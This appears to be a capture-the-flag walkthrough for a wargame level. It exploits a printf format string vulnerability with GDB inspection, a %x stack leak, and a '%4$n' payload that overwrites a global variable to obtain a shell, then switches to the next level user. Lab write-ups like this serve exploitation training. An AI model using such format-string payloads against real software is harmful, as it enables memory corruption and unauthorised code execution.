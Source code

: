 # Level3 Walkthrough

## Analyzing the Program with GDB or Ghidra and Running the program

1. **Disassemble the `main` function**:
    - `watch source.c`
    - Focus on v() function: we can see a call to fgets() which is protect against buffer overflow attack but we can see a printf() function call which is vulnerable to format string exploit.

    ```
    gdb ./level3
    info functions
    b v
    run
    info variables
    p &m
    ```

    - We can see that the address of m is : `804988c` so we'll have to change the value.

    - Purpose is to change the content of the variable `m` it has to have 64bytes (0x40): 
        - address of `m` : 4bytes
        - buffer padding : 60 bytes more

2. **Format String Vulnerability**
    - Need to print number of bytes, and the address.
        ```
        python -c 'print "\x8c\x98\x04\x08" + " %x "* 10' > /tmp/exploit3
        cat /tmp/exploit3 | ./level3
        200 b7fd1ac0 b7ff37d0 804988c
        ```
    - So, the address of m is at the 4th position, so now...
    
3. **Final Fight**
    - We can see "Wait what?!" with `python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' | ./level3` so lets put it in a file
    ```
    python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
    cat /tmp/exploit3 - | ./level3
    ```

## Moving to level4

1. **Swith User to level4**:
    Run ```su level4```

2. **Authenticate with the Password**:
    We used the password we found on flag.